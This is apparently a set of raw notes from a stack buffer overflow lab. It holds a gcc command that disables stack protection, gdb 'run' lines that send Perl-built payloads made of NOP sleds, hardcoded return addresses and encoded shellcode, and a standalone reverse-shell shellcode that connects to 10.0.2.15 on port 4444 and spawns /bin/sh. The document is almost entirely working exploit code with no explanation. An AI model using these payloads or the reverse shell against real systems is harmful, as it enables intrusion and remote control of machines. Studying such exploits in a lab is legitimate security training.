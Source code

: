 "\xb8\x0c\x0e\x3c\x8f\xdd\xc7\xd9\x74\x24\xf4\x5f\x33\xc9"\xb1\x12\x31\x47\x12\x03\x47\x12\x83\xcb\x0a\xde\x7a\xe2\xc9\xe9\x66\x57\xad\x46\x03\x55\xb8\x88\x63\x3f\x77\xca\x17\xe6\x37\xf4\xda\x98\x71\x72\x1c\xf0\x8b\x84\xdc\x0f\xe4\x86\xe0\x1e\xa8\x0f\x01\x90\x36\x40\x93\x83\x05\x63\x9a\xc2\xa7\xe4\xce\x6c\x56\xca\x9d\x04\xce\x3b\x4d\xb6\x67\xcd\x72\x64\x2b\x44\x95\x38\xc0\x9b\xd6"


run $(perl -e 'print "\x90"x60, "\x10\xcf\xff\xff","\x90"x96,"\xb8\x0c\x0e\x3c\x8f\xdd\xc7\xd9\x74\x24\xf4\x5f\x33\xc9\xb1\x12\x31\x47\x12\x03\x47\x12\x83\xcb\x0a\xde\x7a\xe2\xc9\xe9\x66\x57\xad\x46\x03\x55\xb8\x88\x63\x3f\x77\xca\x17\xe6\x37\xf4\xda\x98\x71\x72\x1c\xf0\x8b\x84\xdc\x0f\xe4\x86\xe0\x1e\xa8\x0f\x01\x90\x36\x40\x93\x83\x05\x63\x9a\xc2\xa7\xe4\xce\x6c\x56\xca\x9d\x04\xce\x3b\x4d\xb6\x67\xcd\x72\x64\x2b\x44\x95\x38\xc0\x9b\xd6"')

#### WORK
run $(perl -e 'print "\x90"x76, "\x40\xce\xff\xff","\x90"x96,"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c"')







gcc -m32 -g -o stack2 -z execstack -fno-stack-protector stack.c

	
run $(perl -e 'print "A"x60')




"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";




"\xbd\x92\xa5\x41\x15\xdd\xc5\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x12\x31\x6e\x12\x03\x6e\x12\x83\x54\xa1\xa3\xe0\x69\x71\xd4\xe8\xda\xc6\x48\x85\xde\x41\x8f\xe9\xb8\x9c\xd0\x99\x1d\xaf\xee\x50\x1d\x86\x69\x92\x75\x13\x8a\x66\x8a\x4b\x88\x66\x85\xd7\x05\x87\x15\x81\x45\x19\x06\xfd\x65\x10\x49\xcc\xea\x70\xe1\xa1\xc5\x07\x99\x55\x35\xc7\x3b\xcf\xc0\xf4\xe9\x5c\x5a\x1b\xbd\x68\x91\x5c";

